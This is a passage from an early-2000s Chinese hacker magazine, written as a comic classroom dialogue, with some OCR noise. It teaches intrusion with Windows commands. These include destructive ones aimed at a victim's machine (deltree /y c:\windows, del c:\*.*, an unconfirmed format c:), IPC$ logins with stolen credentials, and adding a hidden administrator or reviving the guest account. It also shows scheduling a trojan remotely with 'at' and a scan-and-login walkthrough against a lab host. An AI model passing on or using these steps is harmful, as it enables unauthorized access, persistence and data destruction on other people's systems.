

图1

```
E:\Documents and Settings\win>copy con c:\rain.ini
hacker x files
^Z
已复制        1 个文件。
E:\Documents and Settings\win>type c:\rain.ini
hacker x files
E:\Documents and Settings\win>_
```

学生X：偶学会了，再讲点儿别的吧！

#### 3.cd和md、rd命令

风飘：下面，我给大家讲讲cd命令。

学生X+1：cd？cd我会用呀，经常听的。

风飘：晕，此cd非彼cd也，我说的cd命令是更改当前目录用的。在用dir时，有的地方带有<dir>标志，这就是一个子目录在命令行下，我们要进入这个子目录，就必须用命令cd 目录名。而cd..就表示回到上级目录。

风飘：下面再讲几个与文件夹有关的命令。要新建一个文件夹，可用命令md 文件夹名来完成。而要删除一个目录，就用命令rd 文件夹名。

学生X+1：我用的时候怎么提示如下信息：

```
Invalid path, not directory,
or directory not empty.
```

风飘：那是因为要删除的文件夹不是空的，里面有文件，rd命令只能用来删除空文件夹。

学生A：郁闷！这样给人删文件不是太麻烦了吗？

风飘：搞破坏呀！罚你把《黑客守则》抄10遍（终于报仇了，风飘好爽中…）！

#### 4. deltree 和 del 命令

风飘：搞破坏自然不能用RD命令了，这时候最好用deltree命令。它与rd不同，deltree不但会删除文件夹，还会删除文件夹内所有的子文件夹和文件，它还有个更具破坏性的参数“/y”，意思是不经过确认而直接删除文件夹。比如我们要删除对方的Windows文件夹，就用命令deltree /y c:\windows或deltree /y c:\*。哈哈，想想会是什么后果吧！要慎用呀！

学生N：老师，那怎样删除单个文件呀？

风飘：Sorry，我忘记了，删除文件可以用del命令。用法是：del 要删除文件名，如del c:\autoexec.bat。注意：这个命令删除文件是不需要确认的，如果我们要删除一个目录下的所有文件，可用命令del c:\*.*，后果也是挺严重的。在入侵时可用来擦脚印。

学生X+1：就这呀？有威力更大的没？

风飘：要核弹？小心布什反恐反到你

#### 5. Format 命令

风飘：下面我们讲format命令！听说过吧？格式化掉你所有磁盘！只说几个用得到的参数吧！只要format c: /u /q /autotest这一条命令，不用10秒钟，对方的C:盘就over了！这里的“/u”是无条件格式化，“/q”是快速格式化，而“autotest”是format没有公开的一个参数，它会自动检测磁盘类型，也就是不会经过确认！当对方发现也早已经来不及了！

学生N：哈哈！网内寻它千百度，得来全不费功夫！

#### 6. attrib 和 cacls命令

风飘：下面再讲解两个很有用的命令，首先看看attrib，attrib是显示和更改文件属性的命令。如果你单独使用，系统会列出当前目录下的所有文件和文件属性。在这里，文件属性是用相应的字符表示的，隐藏是H、只读是R、存档为A、系统是S。如果要单独显示某个文件的属性，就在命令后加文件名。要更改某个文件的属性，就在相应的参数前加“+”或“-”，“+”表示添加该属性，“-”表示去掉。比如我们要把C:\rain.dat的只读和隐藏属性去掉，并加上系统属性，就可用命令attrib c:\rain.dat -r -h +s来完成。之所以说它有用，是因为有些命令无法对有特殊属性的文件进行使用，更改属性后就可以了。

还有一个就是cacls命令，cacls命令是用来改变访问控制列表的。简单的说，如果对方使用的是NTFS文件系统，它可对文件的访问权限进行管理，这时就可用cacls filename来查看你对某个文件所拥有的权限。如果你是admin用户，如以administrator登陆的，可用命令cacls filename /P administrator:F来让administrator完全控制这个文件。我知道你又要问什么了，什么是NTFS？NTFS是一种磁盘格式，只有NT以上的系统可以使用，它可提供用户权限的分配，提高了系统的安全性。

学生A：明白明白，以后有东西玩了，哈哈，我现在试试。

风飘：玩的时候可要注意了，一定要在对方的shell下使用命令，别把自己的磁盘给格式化！

PLMM：shell是什么东东？

风飘：谁这么麻烦……见是一PLMM，立刻露出一脸“惨笑”笑容（风飘：我恨错别字≠*$！）。

shell直接翻译就是“壳”，你可把它当作一个与系统内核交互的界面，或者说是一个解释器。它会把你的命令解释给系统内核，完成相应的操作。在Win2K中，用的最多的shell就算explorer和cmd了，当我们打开一个cmd窗口，它是与我们自己的系统建立联系的，所以说是我们自己的shell，它执行的所有操作都是在自已计算机上的。而我们用溢出程序得到的shell联系的是对方的系统内核，所以所有操作都执行在对方的系统上。这里还要注意，当我们在cmd下与对方建立一个IPC$时，实际上是对方建立了一个通讯管道，而这个cmd还是我们自己的shell，如果你在这个cmd下执行format格式化命令，那倒霉的只能是自己了！

学生A：好险呀，差点把自己给黑掉了。

风飘：这只是最基本的，以后我们还会慢慢深入。下面再学习几个常用的网络命令，其他的以后遇到了再详细解释。听好好听，看什么？说你呢（指着一个PLMM），就算我长的帅也别老看我，记得记笔记知道不（MM狂吐中……）？

#### 7. ping 命令

风飘：先讲个最简单的命令——ping。ping用于确定本地主机是否能与另一台主机交换数据报，简单的说，就是确定是否能与对方连接。最常用的就是用它找出网站的IP地址，如ping www.163.com，看返回的信息：

```
Pinging www.163.com [202.108.36.155] with 32 bytes of data:

Reply from 202.108.36.155: bytes=32 time=99ms TTL=244
Reply from 202.108.36.155: bytes=32 time=119ms TTL=244
Reply from 202.108.36.155: bytes=32 time=94ms TTL=244
Reply from 202.108.36.155: bytes=32 time=130ms TTL=244
```

202.108.36.155就是www.163.com的IP了，我们还可以用ping -a IP来得到IP的主机名，更复杂的用法现在不多说了。

#### 8. net 命令

风飘：在入侵过程中用得最多的要算net命令了。最常用的就是与对方建立IPC$连接，如果我们得到了对方的用户名Rain和密码123456，就可用命令net use \\对方IP\ipc$ "123456" /user:"rain"，断开连接用命令net use \\IP\ipc$ /delete。建立ipc$以后，可以参考以前的《黑客X档案》！我们再看看怎样映射对方的磁盘，用命令net use z: \\IP\c$就可以了（即把对方的C盘映射为本机的Z盘）。

在命令行下添加用户也要用net，如我们得到了对方一个有admin权限的shell，用命令net user feng rain /add就添加了一个用户名是feng、密码为rain的用户，但这个用户隶属于user组，我们要把它提升为管理员，用命令net localgroup administrators feng /add就可以了。如果觉得添加用户太容易被发现，那就把禁用的guest用户激活吧！用命令net user guest /active:yes，然后给guest改密码，用命令net user guest rain就行了，rain就是密码。

学生N：哇！net命令的作用好多呀！

风飘：还不止这些呢，net命令还可以管理共享，用命令net share就可查看所开放的共享资源。要添加一个共享资源，用命令net share 共享名=共享资源，如要将c:\windows共享为rain，用命令net share rain=c:\windows（图2）。

要删除共享，就用命令net share rain /del。入侵时打开对方共享，传输文件会方便些。再说，net view它能显示域列表、计算机列表或者某个计算机的共享资源列表。直接用命令将显示所在域的主机列表，如果用net view \\computername命令，就会显示相应计算机的共享资源，如用命令net view \\127.0.0.1就会显示本机的共享资源列表了。




学生N：127.0.0.1是谁的IP呀？怎么说是查看自己的呢？晕晕的。

风飘：127.0.0.1是保留IP，它指向的是本机，也就是你自己。

风飘：Net还有一个很有用的功能，就是管理系统服务。用net start命令就会显示已启动的服务了。如果我们要启动某个服务，就用命令net start 服务名，如果服务名中有空格，要加引号。如要启动Terminal Server Licensing服务，用命令net start "Terminal Server Licensing"，看图3的提示，服务已成功启动！要停止某个服务，就用命令net stop 服务名。

PLMM：什么是服务？干吗的？

风飘：服务实际上就是Windows 2000中支持其他较大型程序的小型辅助程序。多数系统服务被设置为在每次启动Windows 2000时自动运行，由系统加载，所以拥有system权限。

#### 9. ipconfig和netstat命令

学生A：老师再多讲几个命令啦！

风飘：下面我们再讲讲ipconfig。它可用于显示当前的TCP/IP配置信息，使用IPConfig时不带任何参数选项，那么它为每个已经配置了的接口显示IP地址、子网掩码和缺省网关值，在分析对方网络拓扑结构时很有用。我们还可用ipconfig /all来显示更多的信息。

学生A：这么说我们还可用这个命令来查看自己的IP了？

风飘：聪明，不愧是我风飘的学生，再教你netstat命令。netstat主要用于显示IP、TCP、UDP等协议相关的统计数据，一般用于检验本机端口的网络连接情况。Netstat命令最常用的参数有“-a”和“-n”，用netstat -a -n命令会显示本机所有的有效连接，其他参数不具体讲了，用得最多的就是netstat -an，用它可看到本机所有打开的端口、对应的对方IP、连接状态信息，常用于查找对方的IP，找木马也经常会用到。

学生X：噢！原来用这个命令就能查看打开的端口呀。

#### 10. 命令的简单结合

风飘：再教你们一个在远程主机运行木马的方法，要有两个命令结合，当你与远程主机建立了连接后，就可用命令net time \\IP来查看对方现在的时间，然后用命令at \\IP 12:10 cmd.exe。这样，当到了12:10时，对方就会自动运行cmd.exe。这里的at命令其实就是计划任务而已，单独运行at \\IP就会显示已经存在的计划任务列表了。好了，今天就说到这里，其实想成为一个老鸟，要掌握的命令还有很多，如arp、tracert、route、NBTStat……自己多看书，以后遇到了我再给大家讲解。

学生X+1：靠！这也行？I服了you！

PLMM：怎么能对老师这样说话？最起码也要尊重老人嘛！

（风飘飘：老人？我有那么老吗？受刺激了%#*&*#！）。

### 三、总结 Notice

风飘：大家以后要多向高手学习经验、技巧，你能看得远，是因为站在高人的肩膀上。

好了，这节课就到这儿了，下节课同学们跟我到机房，实战入侵招式。

一阵清风拂过，风飘雨随风轻轻飘起，随风而去了……众人惊呆，心想高手果然不凡！

突然一黑影追来（黄色潜水艇饰），口中大喊：“别走！你叫我帮你买的钢丝绳还没给我钱呢！”众人晕倒……

### 小鸡快跑剧场 现场直播

风飘：任岁月从指尖滑过，一个月的时光就这样悄然离去。追忆曾经的点点滴滴，凄美的故事，在每一个狂扫肉鸡的日子里……

黄色潜水艇：STOP！不是让你来教语文的！

风飘：是…是…是，马上上课，各部门准备，灯光、音响、道具、我的墨镜呢？……

风飘：人都到齐了吗？谁还没来？不在这儿的同学请把手举起来（环顾四周，见没人举手——极度废括）。看来人都到齐了，好了，现在开始上课！

众人无言……

风飘：要学好技术，单单掌握理论是远远不够的，更重要的是实践，积累经验。所以，今天带大家到机房，进行一次简单的入侵实战。

学生N：好怕怕，我们什么都不会呀！

风飘：没关系，我们就是要在实践中学习新知识，这次你们要入侵的主机是老师事先准备的，IP是192.168.1.3。

学生Y：“爱屁”感觉怪怪的，谁这么BT？

风飘：（喷血ing）以你的智商，我很唯向你解释什么……

学生Y：我是新来的嘛~~


风飘：你最好去买几本有关TCP/IP协议的书好好研究研究。这是很必要的！！

风飘：现在市面上常见的hacking品种主要有两类（晕倒…多少钱一斤？）。一种没有明确的目标，也就是根据已知漏洞，大面积搜索可能存在漏洞的主机，然后进行入侵。比如前段时间的RPC漏洞，找到目标后直接用高手编译的工具攻击即可，所以这种方法很简单；另一种就是有明确的攻击目标，这时的攻击思路大体是刺探对方信息、判断可能存在的安全隐患、实施攻击。由于存在太多的不确定因素，需要入侵者具备一定的能力，也相对较难。不论那种入侵，扫描器可都是必不可少的工具。它在hacking中的重要程度如同我在你们中间一样……

PLMM：（狂吐ing）不好意思%#*&*……不过我还是不知道扫描器是什么东东呢！

黑客X档案2003 2004年合订本(下卷)


## 小鸡快跑

凤凰：这个…这个，我查查先。扫描器是检测远程或本地系统安全脆弱性的软件，通过目标主机的TCP/IP端口建立连接并请求某些服务（如TELNET、FTP等），记录目标主机的应答，搜集目标主机相关信息（如匿名用户是否可以登录等），从而发现目标主机某些内在的安全弱点。也就是说，扫描器通过选用远程TCP/IP不同的端口的服务，并记录目标给予的回答，通过这种方法，来搜集很多关于目标主机的各种有用的信息。现在市面上的扫描器品种也不少，根据不同的标准有不同的分类，经常分为三类：数据库安全扫描器、操作系统安全扫描器和网络安全扫描器（针对于网络服务、应用程序、网络设备、网络协议等）。

学生A：这个我知道，我会用SuperScan，厉害吧！

凤凰：臭美什么？SuperScan是款很强大的扫描软件，在端口扫描方面有独到之处，另外比较好的还有X-Scan、流光等综合扫描工具。用它们可搜集到很多有用的信息，比如提供哪些服务？是否有弱口令？下一步的入侵就靠它了。

PLMM：好厉害！

凤凰：不过有的时候，扫描器也是无能为力的。为了防止端口扫描，现在有些网站使用了功能强大的入侵检测系统，当发现你在扫描，便会自动封锁你的IP。许多同学对此束手无策了。这时，我们就可用Telnet来探测对方某个端口是否开放，并获得一些有用的信息。尽可能多的获取对方信息在Hacking中是很重要的。

学生N：Telnet是干嘛的？

凤凰：我晕了，Telnet都不知道。Telnet是进行远程登录的标准协议和主要方式，它为用户提供了在本地计算机上完成远程主机工作的能力。简单的说，就是通过网络远程登录到另一台计算机，并把自己的计算机模拟成那部计算机的终端，并且可在该计算机上运行程序。你把它当作一个shell我也没意见。

学生N：我知道了，老师还是讲讲怎么用吧！

凤凰：比如我们想探测对方FTP 21端口是否开放，就在命令提示符下输入Telnet IP 21，即连接对方的21端口。如果端口关闭，一会儿便会提示“不能打开到主机的连接，在端口 21：连接失败”（图1）。如果端口是开放的，我们就会收到返回信息，从而知道对方提供了FTP服务，还可从返回的信息初步判断对方所使用的软件，从而找出可能存在的漏洞，方便进一步的人侵。同学们来连接一下目标的21端口先。


学生A：它说“220 Serv-U FTP Server v4.0 for WinSock ready...”，是不是说目标开放了21端口并且使用了Serv-U？

学生X：“Serv You”？那是什么东西？

学生N：那个You不是东西。

学生X：You才不是东西呢！

学生N：敢骂我？Are you不服？Come here单挑please……

凤凰：别吵！这个“U”不是“you”！Serv-U是款著名的FTP服务软件。目前网上大多数FTP服务都是由Serv-U提供的。

学生X：老师，我明白了，原来U（You）是这么个东西……

凤凰：（怎么怪怪的）下面我们再连接一下目标的80端口，这是默认的Web服务端口，我们浏览网页时连接的就是对方的80端口。看到返回的信息了吗（图2）？通过这些信息，我们知道目标主机使用的是IIS 5.0，操作系统是Windows 2000。因为在返回信息里会有“Server: Microsoft-IIS/5.0”一行。



PLMM：IIS是什么？还有你怎么知道对方的操作系统？教教我嘛！好哥哥（众人吐……）。

凤凰：IIS是Internet Information Server的缩写，即Internet信息服务。它是微软公司的Web服务器软件，常见的还有apache，主要在linux上使用，功能和IIS相同。所以当我们看到apache字样便可初步断定主机为Linux/Unix，IIS则为Windows系列。如果是Win2000，就是IIS 5.0，IIS 6.0自然是最新的Win2003了。

学生N：这样不用扫描器也能知道对方系统？

PLMM：好哥哥，还有什么？都教我呀！我知道你最好了……

学生N：快看！老师不用钢丝也飞起来了^$%#@&

凤凰老师：既然…你们那么好学，我就再教你们一招！有时候你不知道对方有没有防火墙，就可用Telnet连接对方任意一个端口。如果很快就提示丢失连接，则可初步断定对方没有防火墙；若要等10多秒才提示，大约就有防火墙了。

学生A：哈哈！这招儿有用，（转向MM）还是MM有办法……

凤凰：Stop！跟你们讲了这么多废话！快点跟我操作！我们先来扫描目标主机的端口，打开你们桌面上的SuperScan。

凤凰：SuperScan版本已经有4.0了，增加了许多新功能，但如果只是扫描端口，还是老版本好一些。我们在“开始IP”和“结束IP”中填入目标IP 192.168.1.3，将“只扫描响应ping的主机”前的勾去掉，端口就选“所有端口从”1到5000，这就足够了，再多就没有什么意义了。点击“开始”进行扫描，速度很快，30秒就出来结果了（图3）。



## 小鸡快跑

学生A：我看看，我认识的只有139、445和80，看来没有多少利用价值。



其他用不着的探测项目，如sql、pop3弱口令，最后保留图4上的几个就足够了。然后打开“扫描参数”，在“指定IP范围”中填入扫描IP：192.168.1.3。对于Windows主机的扫描，其他的高级选项默认即可。好了，开始扫描。

学生N：看来有很多信息可以利用（图5）。

风飘：让我们看看检测报告吧！在这里面会分析出很多有用的东西，一开始的“主机分析”就像一个目录，把该机存在的问题总体列出来了，你可以看到我们的目标有两处漏洞（图6）。接着看下面的“安全漏洞及解决方案”（图7）。

学生A：哈哈，它有弱口令！用户名和密码都是administrator！还是管理员账户呢！快点儿连接它。

风飘：对，现在入侵就变得非常容易了！不过别急着连，我们要尽量多的了解对方。往下看，看到了吗？我们能得到很多有用的东西！






```
系统信息：
[ProductName]: Microsoft Windows Server 2003
RegDone:
RegisteredOrganization: MyStorm
RegisteredOwner: Storm
SoftwareType: SYSTEM
CurrentVersion: 5.2
CurrentBuildNumber: 3790
BuildLab: 3790.srv03_rtm.030324-2048
CurrentType: Uniprocessor Free
SystemRoot: E:\WINDOWS
SourcePath: D:\WIN2003\
PathName: E:\WINDOWS
ProductId: 69713-640-0592892-45770

DefaultDomainName: STORM
DefaultUserName: rain

补丁信息：
Comments: Windows Server 2003 修补程序包 - KB\*824146
Backup Dir:
Fix Description: Windows Server 2003 修补程序包 - KB 824146

Installed By:
Installed On:
Service Pack: 01 00 00 00
Comments: Windows Server 2003 修补程序包 - KB 832894
Comments: Windows Server 2003 修补程序包 - KB 835732

共享信息：
[网络共享资源列表 Level 1]:
"E$": 磁盘 - [默认共享] (System)
"IPC$": 进程间通信(IPC$) - [远程 IPC] (System)
"D$": 磁盘 - [默认共享] (System)
"ADMIN$": 磁盘 - [远程管理] (System)
"C$": 磁盘 - [默认共享] (System)

用户信息：
- Administrator account name : Administrator (id 500)
- Guest account name : Guest (id 501)
- HelpServicesGroup (id 1000)
- SUPPORT_388945a0 (id 1001)
- TelnetClients (id 1002)
- rain (id 1003)
- IUSR_STORM (id 1004)
- IWAM_STORM (id 1005)
- IIS_WPG (id 1006)
- OWS_785234153.admin (id 1007)
- ASPNET (id 1008)
```

风飘：你再用X-Scan扫扫看。打开X-Scan 3.1，打开“设置”中的“扫描模块”（图4）。在这里我们要设置要扫描的项目，通过SuperScan的扫描结果，知道了开放的端口，服务自然也就不用扫描了。并且我们知道对方并没有FTP服务（21端口），所以用不着探测“FTP弱口令”了。同样，我们敢掉

黑客X档案 2003 2004年合订本下册

243

## 小鸡快跑

```
- a (id 1010)
- b (id 1011)
- Session Directory Computers (id 1012)
- c (id 1013)
```

The following local accounts have never changed their pass-word :

```
SUPPORT_388945a0
Rain
IUSR_STORM
IWAM_STORM
ASPNET
```

**PLMM**：这些有什么用？？

**凤飘**：笨！这还没有用呀？我们可根据这些信息确定下一步入侵计划，操作系统和补丁版本是不是不知道的吧？再比如得到共享信息，我们就可建立ipc$连接，上传文件；得到用户列表，甚至可暴力破解密码……不过我们已经知道密码了，看他的默认共享是开放的，那就让我们进攻！

**学生 A**：呼叫！三战开始了……

**凤飘**：好，先让我们建立 IPC$ 连接，打开 CMD。还记得第一课讲得命令吗？键入命令 `net use \\192.168.1.3\ipc$ administrator /user:administrator`，命令成功完成！现在我们与被人侵主机建立了一个通讯管道，其他程序或命令就可通过它来访问对方了，因为我们是用管理员帐户登录的，所以拥有的是 admin 权限！不过这还不是对方的 shell，下一步任务就是拿到对方的 shell，入侵就算完成了。

**学生 N**：就用 Telnet 吧！你不是说 Telnet 允许远程登录控制电脑吗？

**凤飘**：好吧！Telnet 使用的是 Telnet 协议，Telnet 协议是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议。Telnet 服务也属于客户机/服务器模型的服务，但它更大的意义在于实现了基于 Telnet 协议的远程登录。要想登录，首先我们要打开对方的 Telnet 服务，这样才能连接，得到 shell。在这之前，我们还要了解一下 NTLM 验证。因为 Telnet 服务默认情况下是使用 NTLM 验证的。这真是一个让人侵者头痛的东西！

**学生 X**：这又是什么东东？微软的东西就是麻烦！

**凤飘**：NTLM 验证是一种验证方式（又是废话）。再讲点儿理论性的东西吧！听好。早期的 SMB 协议在网络上明文传输口令，后来出现了“LAN Manager Challenge/Response”验证机制，简称 LM，它十分简单，以至很容易被破解，微软随后提出了 WindowsNT 挑战/响应验证机制，即 NTLM。下面来点儿不可不看的理论——NTLM 的工作流程：

- NTLM 的工作流程
1. 客户端首先在本地加密当前用户的密码成为密码散列；
2. 客户端向服务器发送自己的帐号，这个帐号是没有经过加密的，明文直接传输；
3. 服务器产生一个 16 位的随机数字发送给客户端，作为一个 challenge（挑战）；
4. 客户端再用加密后的密码散列来加密这个 challenge，然后把这个返回给服务器，作为 response（响应）；
5. 服务器把用户名、给客户端的 challenge、客户端返回的 response 这三个东西，发送域控制器；
6. 域控制器用这个用户名在 SAM 密码管理库中找到这个用户的密码散列，然后使用这个密码散列来加密 challenge；
7. 域控制器比较两次加密的 challenge，如果一样，那么认证成功。

**学生 Y**：（心想那里抄来的）报告，看不懂！

